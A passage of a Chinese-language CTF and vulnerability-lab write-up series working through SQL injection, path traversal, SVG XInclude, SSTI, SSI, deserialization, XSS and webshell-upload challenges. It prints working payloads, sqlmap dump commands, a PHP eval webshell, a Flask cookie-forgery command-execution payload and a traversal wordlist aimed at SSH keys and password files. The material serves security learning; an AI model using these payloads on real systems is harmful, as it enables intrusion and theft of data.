   <rect width="600" height="600" style="fill:rgb(255,255,255);" />  
   <text x="10" y="100">  
     <xi:include href=".?../../../../../../../../etc/passwd" parse="text"   
encoding="UTF-8">  
       <xi:fallback>file not found</xi:fallback>  
     </xi:include>  
   </text>  
</svg>

~~~

攻击者可以通过构造特定的 SVG 文件，利用 *xi:include* 元素中的路径遍历来读取敏感文件


这个文件上传只能上传svg格式的文件

所以再进行修改xi:include路径为/flag即可

~~~xml
# 我们通过抓包来构造POC来查找/etc/passwd
<?xml version="1.0" encoding="UTF-8" standalone="no"?>  
<svg width="1000" height="1000" xmlns:xi="http://www.w3.org/2001/XInclude">  
   <rect width="600" height="600" style="fill:rgb(255,255,255);" />  
   <text x="10" y="100">  
     <xi:include href=".?../../../../../../../../flag" parse="text"   
encoding="UTF-8">  
       <xi:fallback>file not found</xi:fallback>  
     </xi:include>  
   </text>  
</svg>

~~~


## cve-2022-4230

WP Statistics WordPress 插件13.2.9之前的版本不会转义参数，这可能允许经过身份验证的用户执行 SQL 注入攻击。默认情况下，具有管理选项功能 (admin+) 的用户可以使用受影响的功能，但是该插件有一个设置允许低权限用户也可以访问它

打开靶场发现是空页面 毫不犹豫直接进行目录扫描


目录扫描发现


进行访问robots.txt readme.html

其实不止这几个文件 我只是展示这两个文件 其实可以直接访问到登录的文件后台


再去访问/wp-admin/admin-ajax.php


没有任何东西随后再访问上级目录 发现了登录界面


尝试登录 admin admin123 但是并不能登录 再使用test去登录 发现登录成功

跳出了界面 并且出现WordPress6.8.2版本 根据题目知道有插件漏洞

以允许查看WP统计信息的用户身份登录，并通过获取随机数“https://xxx.com/wp-admin/admin-ajax.php?action=rest-nonce”，并在下面的URL中使用它，该URL将延迟5

首先通过访问，获得随机数（必须要先登录过后台才行）

构造payload：wp-admin/admin-ajax.php?action=rest-nonce 获得随机数


再构造payload：*wp-json/wp-statistics/v2/metabox?_wpnonce=NONCE&name=words&search_engine=aaa*


再进行抓包


将数据包打包成txt拿去sqlmap中跑

python sqlmap.py -r 1.txt --batch --dbs

python sqlmap.py -r 1.txt --batch -D wordpress --tables

python sqlmap.py -r 1.txt --batch -D wordpress -T flag -columns --dump


## cve-2023-2130

手工注入

在SourceCodester采购订单管理系统1.0中发现了一项被分类为关键的漏洞。受影响的是组件GET参数处理器的文件/admin/suppliers/view_details.php中的一个未知函数。对参数id的操纵导致了SQL注入。可以远程发起攻击

该漏洞的存在是由于应用程序未能正确过滤和验证用户输入

打开站点


发现是一个登录界面 然后尝试登录 admin admin

但是发现没有回显 还是在原来的界面

随后我对这个站点进行扫站 而不是只对/admin/login.php进行扫站 

发现没有什么比较特殊的站点

但是有一个admin/db/这个可以猜测是数据库的站点 但是一访问它就会重定向到登录界面

所以没有任何用处

但是根据题目/admin/upplires/view_details.php中存在注入点随后进行访问

通过抓包也会发现 回显的数据存在查询数据库语句

随后判断有没有注入点

?id=


发现有回显 再构造闭合

?id=1 and 1=1发现正常 

再分别使用id=1 and 1=2 --+" 和"id=1' and 1=2 --+"尝试，发现后者页面无法正常显示，说明存在SQL注入

说明存在注入 而且是数字型注入

使用order by x判断出现异常的位置

发现在9的位置出错 所以直接构造联合

?id=1' union select 1,2,3,4,5,6,7,8--+回显

再报错回显 ?id=1' and 1=2 union select 1,2,3,4,5,6,7,8--+

构造查数据库的payload

?id=1' and 1=2 union select1,database(),3,4,5,6,7,8--+


再去查数据库的版本、表名、字段等

1' AND 1=2 UNION SELECT 1,version(),3,4,5,6,7,8--+

1' and 1=2 union select 1,group_concat(table_name),3,4,5,6,7,8 from information_schema.tables where table_schema ='purchase_order_db' --+

1' and 1=2 union select 1,group_concat(column_name),3,4,5,6,7,8 from information_schema.columns where table_schema ='purchase_order_db'  and table_name='fllllaaaag' --+

1' and 1=2 union select 1,flag,3,4,5,6,7,8 from fllllaaaag--+即可

纯手工注入

其实可以进行sqlmap 这里就不展示了 手工才是最牛的

## cve-2023-0562

银行储物柜管理系统是一个基于网络的应用程序，用于处理存储银行客户贵重物品的银行储物柜。储物柜的所有详细信息都保存在数据库中。银行储物柜管理系统项目是使用 PHP 和 MySQLi 扩展开发的

PHPGurukul 银行储物柜管理系统 1.0 中发现一个漏洞。该漏洞被评为严重。该问题影响了组件 Login 的文件 index.php 的一些未知功能该漏洞的标识符为 VDB-219716


打开靶场 什么也没发现 只看到了一个输入框 然后对输入框进行输入 发现回显 可以判断站点存在sql注入

再去扫目录 发现了index.php/login

随后进行了访问 访问之后不过是简单回显 页面上所有的东西

又去乱点 发现banker直接出现一个登录框

admin admin进行弱口令登录

无法登录

随后进行抓包登录 看数据包出现什么东西


发现肯定是post请求 post数据注入

从前面那个输入框就可以知道 该站点是存在注入的

然后将数据包复制出来 拿去sqlmap跑

注意数据包是https:// 而不是http:// 

所以在数据包中可以将其进行修改为http:

或者不修改 用sqlmap跑 直接指定通过https://

sqlmap.py -r 1.txt --force-ssl --batch --dump

## cve-2023-7130

College Notes Gallery 2.0 允许通过“/notes/login.php”中的参数‘user’进行 SQL 注入。利用这个问题可能会使攻击者有机会破坏应用程序，访问或修改数据.


打开靶场 然后点到login 发现这里有错误

随后进行判断是否有注入点 测试后 发现是单引号闭合 而且是存在于user这里注入


随后让它报错注入即可


payload：user =1' and extractvalue(1,group_concat(0x7e,(select database()),0x7e))#

但是发现group无效 随后用的concat将数据库爆了出来

 

再去爆表名

payload：user=1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='notes'),0x7e))#

然后爆字段名

payload：user=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='notes' and table_name='flllaaaag'),0x7e))# 

此时就会看到flag的字段名

在获取flag的时候，因为extractvalue()函数显示有长度限制为32，所以这里要用到substr()函数进行分段截取 

substr(string,start,length) 对于给定的字符串string，从start位开始截取，截取length长度，如substr('chinese',3,2)=in

payload：user=1' and extractvalue(1,concat(0x7e,substr((select group_concat(flag) from flllaaaag),1,30),0x7e))#

注意这里有两部分flag 所以有范围 一个一个调试 第二条payload

payload：user=1' and extractvalue(1,concat(0x7e,substr((select group_concat(flag) from flllaaaag),20,30),0x7e))#

## cve-2023-7107

E-Commerce Website 1.0 允许通过“/pages/user_signup.php”中的参数‘firstname’、‘middlename’、‘email’、‘address’、‘contact’和‘username’进行 SQL 注入。利用这个问题可能会使攻击者有机会破坏应用程序，访问或修改数据，或者利用底层数据库中的最新漏洞

sql注入语句 打开界面 没发现什么东西


然后查看源码 也没有什么特殊之处

扫描目录 发现有index.php index.php/login

进行访问 只能访问到登录

然后尝试admin admin123弱口令登录

发现无法登录

再看 看到有sign up页面即注册

随后进去进行注册

注册的时候发现存在问题


随后注册对其进行抓包

抓到数据包后复制出来 但是发现其数据包具有cookie所以拿去sqlmap跑的时候 需要添加

最后再添加user-agent头 绕过waf 防止直接发现是sqlmap 其实没有cookie也可以爆出来 因为抓的数据包中包含了 sqlmap自动处理

python sqlmap.py -r 1.txt --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101" --cookie="PHPSESSID=c000c99b0b55e6fb2087a2758f6e3630" --force-ssl --batch --dbs


python sqlmap.py -r 1.txt --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101" --cookie="PHPSESSID=c000c99b0b55e6fb2087a2758f6e3630" --force-ssl --batch -D electricks -tables


python sqlmap.py -r 1.txt --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101" --cookie="PHPSESSID=c000c99b0b55e6fb2087a2758f6e3630" --force-ssl --batch -D electricks -T flllaaaag -columns


python sqlmap.py -r 1.txt --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101" --cookie="PHPSESSID=c000c99b0b55e6fb2087a2758f6e3630" --force-ssl --batch -D electricks -T flllaaaag -C flag -dump

## cve-2023-7106

E-Commerce Website 1.0 允许通过“/pages/product_details.php”中的参数“prod_id”进行 SQL 注入。利用这个问题可能会使攻击者有机会破坏应用程序，访问或修改数据，或者利用底层数据库中的最新漏洞
与上一个7107类似 不过他是可以通过参数进行注入

打开站点 直接进行测试prod_id

测试发现使用单引号'或者)直接返回了错误 但是使用1'还是正常页面

所以再者使用sqlmap进行测试验证

python sqlmap.py -u url --batch --current-db

爆出数据库后再去爆表名、字段名 一样的操作

## 2023ciscn文件上传与linux命令操作 软连接+getshell

2023ciscn初赛的unzip

何为软连接：**可以将某个目录连接到另一个目录或者文件下，那么我们以后对这个目录的任何操作，都会作用到另一个目录或者文件下**

打开站点 发现需要上传一个文件


随后进行随意上传一个文件

发现了源码


对源码进行审计

~~~php
if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip')
~~~

验证MIME值，确定上传的文件类型为zip，说明要上传一个zip压缩文件

~~~php
exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]); 
~~~

把压缩包解压到/tmp目录下

在 Linux 系统中，如果使用 Apache 服务器，默认的 Web 根目录是/var/www/html。

上传解压后的文件被解压到/tmp目录下，并且不能直接访问到/tmp目录，但可以直接访问网站根目录/var/www/html。

想办法实现目录跳转，想到了软链接（和Windows的快捷方式类似）：

①使/tmp目录下的link与网站根目录/var/www/html建立软链接

（了解软硬链接：Linux-33Linux文件系统命令-ln链接中符号链接和硬链接的应用场景哔哩哔哩bilibili）

②上传一句话木马，时期被解压到网站根目录下

③用蚁剑，菜刀或者参数访问查询flag

所以最后的解题可以如此：

依次上传两个zip文件，第一个zip文件slink.zip解压之后建立软链接（此时slink相当于/var/www/html）

第二个zip文件包含一句话木马，且解压之后的名字和第一个zip文件解压之后的名字一样，因此把第一个zip文件解压之后覆盖

（第二个zip文件的结构：slink2.zip/slink/shell.php（shell.php里面是一句话木马），解压之后把原来解压得到的slink替换掉，shell.php相当于是在/var/www/html/shell.php）

1.建文件夹

mkdir 111

2.进入该文件夹下

cd 111

3.创建link文件

ln -s /var/www/html/ link

4.对其进行压缩

zip --symlinks link.zip link

ls会发现在111的文件夹下会存在link link.zip

5.然后将该文件删除 在建一个link文件夹

mkdir link

6.cd link

7.写木马

echo '<?php @eval($_POST["cmd"]);?>' >hack.php

8.

ls 检查是否成功写有

9.返回上一级目录 将带马的文件进行压缩

cd ../

zip -r link1.zip ./*

最后上传即可


## cve-2023-37474

Copyparty是一个可移植的文件服务器。在1.8.2版本之前的版本存在一个CTF技巧，该漏洞位于`.cpr`子文件夹中。路径遍历攻击技术允许攻击者访问位于Web文档根目录之外的文件、目录

一个严重的路径遍历漏洞，攻击者可以利用该漏洞访问服务器上的敏感文件


在分析代码时，发现程序代码量很小，大约 300 行左右。启动程序后，发现日志中有一个临时文件，代码被放置在该临时文件中运行。通过分析源码，发现漏洞存在于 *self.tx_file(static_path)* 函数中，该函数使用了 *open_func(\*open_args)*，其中 *** 操作符将 *open_args* 列表中的元素解包成单独的参数传递给 *open_func* 函数，最终读取文件，导致路径遍历漏洞。


漏洞修复

修复后的代码创建了一个 *path_base* 变量，用于存储静态文件所在目录的绝对路径，然后使用 *os.path.join()* 将 *path_base* 和 *self.vpath[5:]* 进行拼接，得到静态文件的完整路径 *static_path*。接着，通过 *absreal()* 函数确保 *static_path* 是绝对路径，最后使用 *startswith()* 方法检查 *static_path* 是否以 *path_base* 开头，如果不是，说明存在路径遍历漏洞，记录日志并返回 404 错误页面


对于该漏洞的利用可以直接使用poc进行验证

curl -i -s -k -X GET 'http://127.0.0.1:3923/.cpr/%2Fetc%2Fpasswd'

其他的poc

```
curl -sik http://127.0.0.1:3923/.cpr/%2Fetc%2Fpasswd
curl -sik http://127.0.0.1:3923/.cpr/..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

## cve-2023-34843

traggo/server 版本 0.3.0 容易受到目录遍历的攻击

- traggo/server 版本 0.3.0 目录遍历

Traggo 是一个基于标签的时间跟踪工具，该漏洞允许攻击者通过构造恶意请求进行目录遍历，从而读取系统上的文件，导致敏感信息泄漏。

打开站点出现的是一个登录界面

尝试猜弱口令进行爆破

但是发现没有 然后根据别人的wp再结合题目，其实是一个目录遍历，构造恶意的payload进行访问文件

所以可以尝试构造恶意payload

/static/..%5c..%5c..%5c..%5cetc/passwd
/static/..%5c..%5c..%5c..%5c/flag

## php反序列化

2020 网鼎杯 青龙组 AreUSerialz

打开站点发现是明显的代码审计

~~~php
 <?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}

~~~

对代码进行审计，发现其存在序列化，再根据题目意思可以确定存在反序列化漏洞

包含了一个flag.php文件，传值主要通过get传输

~~~php
if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }
~~~

传入的str会经过函数is_valid进行检验，通过ord函数，返回其ASCII值，ASCII值需要再32到125之间，如果符合条件则会进行反序列化

通过process方法可以看到如果它的op===2则去读取文件内容，因为该站点直接包含了文件flag.php，op===1则会去写入文件

所以要读取flag可以去尝试读取flag.php文件即可

但是在它的销毁函数中，发现如果op===2它会将其转为1，从而会去执行写入文件

所以第一步需要考虑绕过op===2转为1

在php中，因为其语言类型为弱类型，所以===它是一个强相等，即对比类型又对比值，==则是对比值而已

所以我们可以直接构造op== 2加一个空格即可

protected权限的变量在序列化的时会有%00*%00字符，%00字符的ASCII码为0

所以在构造时对象时可以使用public进行绕过

读取文件可以通过php的伪协议进行读取，还有一个绕过就是它的content长度不能过长

所以综上我们可以如此构造

~~~php
<?php
    
    class FileHandler{
    public $op= ' 2';
    public $filename="php://filter/read=convert.base64-encode/resource=flag.php";
    public $content;
    }

  $x=new FileHandler();
  echo serialize($x);
    
?>
~~~

最后读取出来的是一串明显的base64编码后的字符

所以在写py的64编码脚本即可

~~~python
import base64

# Base64编码的字符串
encoded_str = "PD9waHAKJEZMQUcgPSAiY3RmaHVie2Y0NDJlNjViNTU5ZmMxYjAzM2QxYWUxY30iOwo/Pgo="

# 使用base64模块进行解码
decoded_bytes = base64.b64decode(encoded_str)

# 将字节解码为UTF-8格式的字符串
decoded_str = decoded_bytes.decode('utf-8')

print(decoded_str)
~~~

看别人的wp，在比赛的时候会有相对路径和绝对路径的问题，所以可以先尝试读取/etc/passwd检验自己的payload，最后再去猜测真正路径在哪

file_get_content()可以读取php://filter伪协议

protected/private类型的属性序列化后产生不可打印字符，public类型则不会

PHP7.1+对类的属性类型不敏感

**php伪协议知识：**

当PHP中有下面的函数时要尝试是否可以利用file协议读取协议文件：file_get_contents(),curl_exec(),readfile(),fopen()

PHP伪协议是一种在PHP处理数据时，通过替换数据报的头部信息来欺骗网络协议的方式来提高性能的技术，在数据报的头部中添加一个特殊的标志位，用于指示该数据报是伪协议数据报。当PHP读取数据报时，它会检查该标志位是否为0.如果标志位为0，则它将直接读取内存中的数据；如果标志位为1，则它将会解析数据报，并根据数据报的头部信息来执行相应的操作

12种伪协议

~~~text
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
     php://stdin, php://stdout 和 php://stderr
     php://input
     php://output
     php://memory 和 php://temp
     php://filter
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
~~~

file:// 用于访问本地文件系统，比如：在CTF中通常用来读取本地文件的且不受配置文件中allow_url_fopen与allow_url_include的影响


php://filter常用

~~~text
读：php://filter/resource=文件名
php://filter/read=convert.base64-encode/resource=文件名
写：php://filter/resource=文件名&txt=文件内容
php://filter/write=convert.base64-encode/resource=文件名&txt=文件内容

~~~

## SSTI注入1

ctfhub中的afr-3

可能用到的字典:

~~~text
..\..\..\..\..\..\..\..\..\..\boot.ini 
..\..\..\..\..\..\..\..\..\..\Windows\System32\inetsrv\MetaBase.xml 
..\..\..\..\..\..\..\..\..\..\Windows\repair\sam 
..\..\..\..\..\..\..\..\..\..\Program Files\mysql\my.ini 
..\..\..\..\..\..\..\..\..\..\Program Files\mysql\data\mysql\user.MYD 
..\..\..\..\..\..\..\..\..\..\Windows\php.ini 
..\..\..\..\..\..\..\..\..\..\Windows\my.ini 
../../../../../../../../root/.ssh/authorized_keys
../../../../../../../../root/.ssh/id_rsa
../../../../../../../../root/.ssh/id_rsa.keystore
../../../../../../../../root/.ssh/known_hosts
../../../../../../../../etc/passwd 
../../../../../../../../etc/shadow 
../../../../../../../../etc/my.cnf 
../../../../../../../../etc/httpd/conf/httpd.conf 
../../../../../../../../root/.bash_history 
../../../../../../../../root/.mysql_history 
../../../../../../../../proc/self/fd/fd[0-9]*
../../../../../../../../proc/mounts
../../../../../../../../proc/config.gz
../../../../../proc/self/cmdline
~~~

打开站点 发现是一个可以提交的按钮


随后进行提交，随便输入，回显


再进行输入其他数据，还是回显该页面，随后再去点击article


然后看到路径带有name，结合ssti模版注入知识，可以猜到是jinja2渲染，随后再进行输入构造，{{7*7}}


随后进行目录扫描，使用dirsearch和御剑进行扫描

发现dirsearch没有回显，但是御剑存在一个回显


所以可以猜测存在一个目标遍历漏洞

然后进行构造payload进行访问或者写脚本成批验证

直接进行payload构造

验证linux下的进程

发现可以文件


随后进行读取

发现源码对其进行审计

~~~python
import os
from flask import ( Flask, render_template, request, url_for, redirect, session, render_template_string )
from flask_session import Session

app = Flask(__name__)
execfile(&#39;flag.py&#39;)
execfile(&#39;key.py&#39;)

FLAG = flag
app.secret_key = key
@app.route(&#34;/n1page&#34;, methods=[&#34;GET&#34;, &#34;POST&#34;])
def n1page():
    if request.method != &#34;POST&#34;:
        return redirect(url_for(&#34;index&#34;))
    n1code = request.form.get(&#34;n1code&#34;) or None
    if n1code is not None:
        n1code = n1code.replace(&#34;.&#34;, &#34;&#34;).replace(&#34;_&#34;, &#34;&#34;).replace(&#34;{&#34;,&#34;&#34;).replace(&#34;}&#34;,&#34;&#34;)
    if &#34;n1code&#34; not in session or session[&#39;n1code&#39;] is None:
        session[&#39;n1code&#39;] = n1code
    template = None
    if session[&#39;n1code&#39;] is not None:
        template = &#39;&#39;&#39;&lt;h1&gt;N1 Page&lt;/h1&gt; &lt;div class=&#34;row&gt; &lt;div class=&#34;col-md-6 col-md-offset-3 center&#34;&gt; Hello : %s, why you don&#39;t look at our &lt;a href=&#39;/article?name=article&#39;&gt;article&lt;/a&gt;? &lt;/div&gt; &lt;/div&gt; &#39;&#39;&#39; % session[&#39;n1code&#39;]
        session[&#39;n1code&#39;] = None
    return render_template_string(template)

@app.route(&#34;/&#34;, methods=[&#34;GET&#34;])
def index():
    return render_template(&#34;main.html&#34;)
@app.route(&#39;/article&#39;, methods=[&#39;GET&#39;])
def article():
    error = 0
    if &#39;name&#39; in request.args:
        page = request.args.get(&#39;name&#39;)
    else:
        page = &#39;article&#39;
    if page.find(&#39;flag&#39;)&gt;=0:
        page = &#39;notallowed.txt&#39;
    try:
        template = open(&#39;/home/nu11111111l/articles/{}&#39;.format(page)).read()
    except Exception as e:
        template = e

    return render_template(&#39;article.html&#39;, template=template)

if __name__ == &#34;__main__&#34;:
    app.run(host=&#39;0.0.0.0&#39;, port=80, debug=False)
~~~

可以明显看到flag和key

所以可以去尝试访问flag.py和key.py


flag还是没有权限，但是key发现了一个类似密钥的东西

key = 'Drmhze6EPcv0fN_81Bj-nA'

随后进行抓包，因为没有权限可以猜测可能是因为没有cookie能够成功认证

所以进行构造

~~~text
python flask_session_cookie_manager3.py encode -s "Drmhze6EPcv0fN_81Bj-nA" -t "{\"n1code\": \"{{ ''.__class__.__mro__[2].__subclasses__()[132].__init__.__globals__['os'].popen('cat flag.py').read() }}\"}"
~~~

上述构造出现500的返回值，应该是被ban了，命令执行

所以可以进行文件读取

~~~text
python flask_session_cookie_manager3.py encode -s "Drmhze6EPcv0fN_81Bj-nA" -t "{\"n1code\": \"{{ ''.__class__.__mro__[2].__subclasses__()[40]('flag.py').read() }}\"}"
~~~

一般优先使用兼容版本

~~~text
python flask_session_cookie_manager3.py encode -s "Drmhze6EPcv0fN_81Bj-nA" -t "{\"n1code\": \"{{ ''.__class__.__base__.__subclasses__()[132].__init__.__globals__['os'].popen('cat flag.py').read() }}\"}"
~~~


## SSRF1

国赛华东北赛区babyweb

打开站点 啥都没有 只能进行目录扫描


对目录进行扫描也没有发现任何东西 随后去访问重定向的url

进行也没发现什么 只有几个简单的js文件

点进去全是js源码

还出现了一个apache/2.4.18(Ubuntu)

去进行信息收集 知道apache2.4.18在ubuntu上存在两个漏洞

一个是cve-2021-40438：SSRF漏洞

另一个cve-2023-25690：HTTP请求走私漏洞

对其进行抓包也没有发现其他东西 根据站点提示 no inner user

可以猜测为SSRF服务器伪造漏洞

尝试访问ssrf.php


随后进行提交代码

访问http://127.0.0.1:80


发现直接访问到了数据库管理

进行sql查询没有回显 直接跳转回原先界面

随后对站点进行扫描 也没发现其他

再者进行本地文件读取 php伪协议

file://+读取的文件路径

~~~text
file:///etc/passwd
~~~

发现具有回显


随后可以尝试读取flag

最后直接读取到flag

## 逆向解密

攻防世界中的web2

打开站点直接出现一段php代码，然后后面也提示了逆向加密算法进行解密即可拿flag

~~~php
<?php
$miwen="a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws";

function encode($str){
    $_o=strrev($str);
    // echo $_o;
        
    for($_0=0;$_0<strlen($_o);$_0++){
       
        $_c=substr($_o,$_0,1);
        $__=ord($_c)+1;
        $_c=chr($__);
        $_=$_.$_c;   
    } 
    return str_rot13(strrev(base64_encode($_)));
}

highlight_file(__FILE__);
/*
   逆向加密算法，解密$miwen就是flag
*/
?>
~~~

先进行反转原字符串，然后遍历字符获取到每一个字符

再拿到其ASCII值再加1

获取到新字符再进行拼接

拼接之后先进行base64编码，再进行反转

反转之后使用rot13编码的方式保存

ROT13是自反的，所以应用两次ROT13会得到原始字符串

~~~python
import base64
import codecs

secret = "a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws"
#应用ROT13解码（ROT13是自反的，所以同样操作即可）
step1 = codecs.decode(secret, 'rot13')
#将字符串进行反转
step2 = step1[::-1]
#进行base64编码解码
step3 = base64.b64decode(step2).decode('utf-8')
#之后再进行字符串ASCII值减1 添加
step4 = ''.join([chr(ord(c) - 1) for c in step3])
#再进行反转即可
result = step4[::-1]
print(result)

~~~

## SSRF2

攻防世界中的ssrf me

打开站点

发现两个输入框 一个网址 一个验证码

但是发现验证码有一个MD5加密

所以需要进行一个碰撞才行


打开源码 什么都没有 只有一句提示不能访问外网

先进行提交一次

输入地址

根本无法回显

随后尝试进行hash碰撞


拿到验证码

提交之后 再出现了一个输入框


可以猜测 再进行下一次输入 也是会出现如此输入框给你进行提交

所以可以尝试使用读取本地文件

php伪协议

file://

尝试file:///etc/passwd

发现了回显 说明验证成功


随后直接进行读取flag即可

但是在读取flag的时候出现了hacker

说明进行了过滤

此时对flag进行编码进行绕过即可

拿到之后提交没通过 没搞明白

然后去看官方的

它直接去尝试读取apache的配置文件 通过f12网络抓包可以知道搭建的服务器为apache

file:///etc/apache2/sites-enabled/000-default.conf


发现其中还有一个端口号可以进行访问 所以进行访问读取源码


发现下面存在一个命令执行代码

此时主机不出网而且执行命令后没有回显

所以可以去将flag写入一个临时目录 再进行读取

然后构造gopher协议进行发包执行命令

将flag存于一个目录下

再进行读取file://

随后读取出来提交还是没办法通过

放弃了

## upload1文件上传

攻防世界中的easyupload

打开站点发现可以进行一个文件上传 毫无疑问该题目会是一个上传webshell拿权限的题目


随后上传一波


上传之后可以看到 回显上传成功 并且存在路径

随后可以进行该路径的访问


可以看到它能够访问得到上传的图片

显然 上传后门即可拿flag

随后写了一个php后门进行上传


发现被过滤

再者将后缀改为png

但还是不行

后续去看wp发现 需要使用魔术头GIF89a


成功上传

然后就可以通过抓包改文件后缀名 再进行蚁剑连接


但是发现被过滤了

看大佬们的wp

需要一个.user.ini文件

仔细看详解


所以再写该文件即可

注意Windows中不能够命名.user.ini

所以可以在抓包之后再改名字


成功回显

随后再上传之前的后门 再连接


注意：蚁剑连接的路径不是站点路径 而是上传之后的重发路径 对请求进行抓包之后即可拿到


反正已经拿到了 但是提交并没有通过 搞不懂

## SSTI注入2

2020-BDJCTF的easy_search

ctfhub中存在

进去之后发现是一个登录框

弱口令尝试登录

全是返回fail

再者进行目录扫描


发现有index.php.bak 这其实一个源码的备份文件

随后访问

但是并没有任何东西

看别人的才知道 这里面还出现了一个index.php.swp

发现了源码

~~~php
?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script
~~~

发现这里有一个比较

即密码的前6位MD5加密之后为6d0bc1

随后写脚本跑

~~~python
import hashlib
def md5(s):
    return hashlib.md5(s.encode('utf-8')).hexdigest()
for i in range(1, 10000000):
    if md5(str(i)).startswith('6d0bc1'):
        print(i)
        break
~~~


admin 加爆出来的密码 成功登录


抓包

发现回显有一个网址 但是单独登录没有

随后进行访问


到这之后一头雾水

看别人的wp 这里需要一个知识点

ssi注入 也是ssti注入的一个内容


所以刚好这个网页也是shtml嵌入在服务端里

所以进行命令执行

```
<!--#exec cmd="命令"-->
```


执行命令

看到各种回显

随后尝试返回上级目录

最好在burp中进行命令执行


看到flag

查看即可


再访问回显中的目录即可

ps:有的大佬还说要伪造ip 一点没有想过这种东西 真的佩服佬

## hashcat工具的使用


## CVE-2023-30212

OURPHP版本&lt;=7.2.0存在XSS漏洞，攻击路径为/client/manage/ourphp_out.php。

直接进行访问该路径即可

## CVE-2023-30210

OURPHP版本&lt;=7.2.0存在（XSS）漏洞，攻击路径为/client/manage/ourphp_tz.php。

然后进行构造xss

~~~javascript
act=rt&callbalck=<script>alert(document.cookie)</script>
~~~

可以直接弹cookie出来 flag在cookie中 跟上面一个cve-2023-30212一致

## CVE-2023-1313

cockpit在2.4.1版本之前存在任意文件上传漏洞PS：通过在浏览器中打开/install来运行安装

需要知道的常识


所以可以直接进行路径访问/install

或者进行目录扫描

使用dirsearch扫描 发现install是重定向的


不是重定向 加了一个参数-F 但是之前我扫的时候是重定向的

随后访问路径 其实这个路径可以直接来到安装目录

通过如此可以进行账号密码的重设

重设：

admin

admin

再进行登录


点到assets中 发现存在一个文件上传 upload asset


成功上传


看到旁边的三个小点 随后进行点击 可以看到存在编辑

不懂为什么 先点


每个都点一下 发现点击text/x-php时直接跳转到phpinfo()页面

因为我写的这个上传文件中就是直接跳转phpinfo()页面的

到此漏洞验证成功

可以更改后门 写一句话木马 进行连接

拿到网址后 直接使用蚁剑进行连接

注意自身电脑 防火墙我自己的防火墙关了才能上传的shell

不然系统会自动拦截


往里面代码翻 可以看到其源码 所以也就是为什么能够访问install路径可以达成创建账号密码进行登录的操作

## CVE-2023-38836

BoidCMS v.2.0.0 存在文件上传漏洞，远程攻击者可通过添加 GIF 头部绕过 MIME 类型检查，执行任意代码

一个简单的rce 主要是先突破登录

可以使用字典进行爆破

在burp中抓包后 使用字典爆破即可

我这里登录不进行 不知道为什么

直接报错 http向https发送请求 发送不成功

只能使用别人的wp了

进行之后 出现一个上传框


然后上传一个shell.php

发现不支持类型

随后再上传一个图片文件

能看到上传成功


所以可以写一个shell 然后上传并进行抓包

写木马的时候可以在里面直接添加魔术头绕过MIME

GIF89a

或者在上传的时候抓数据包里面进行修改

还可以在已上传的图片中进行写马 并且修改后缀


## 算法逆向

2016 第五届山东省网络安全竞赛中的crypto

下载附件 拿到源码与密文


阅读源码 

~~~php
function encode( $str = '' ){
    $strrev = strrev( $str );
    $string = '';
    for( $i=0; $i < strlen($strrev);$i++ ){
        $char = substr( $strrev, $i, 1 );
        $ordChar = ord( $char ) + 1;
        $char = chr( $ordChar );
        $string = $string.$char;
    }
 
    $string = base64_encode( $string );
    $string = strrev( $string );
    $string = str_rot13( $string );
    return $string;
}
~~~

先将字符串反转

反转之后拿每个字符的ASCII值加1

再将字符串拼接起来

然后进行base64编码

编码之后再反转

反转 最后使用rot13的格式输出

